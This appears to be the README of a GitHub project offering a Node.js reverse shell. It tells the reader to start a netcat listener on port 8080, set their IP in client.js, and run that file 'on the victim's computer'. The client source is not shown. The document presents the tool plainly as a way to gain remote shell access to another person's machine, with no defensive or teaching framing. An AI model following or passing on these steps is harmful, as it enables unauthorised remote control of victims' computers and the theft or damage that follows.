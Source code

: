 <hr>

# Reverse Shell

### Reverse Shell made in Node.js, to use open a port and listen to it. You can do this easily with netcat.

```
nc -l -p 8080
```

### Now put your IP in the IP variable inside the client.js file

```js
var IP = "YOU IP"
```

### Now run the client.js file on the victim's computer, make sure she has the node and lib child_process installed

<p align="center">


    ![print](https://github.com/JoPowerTech/ReverseShell/blob/main/screenshot.png)


</p>
<hr>
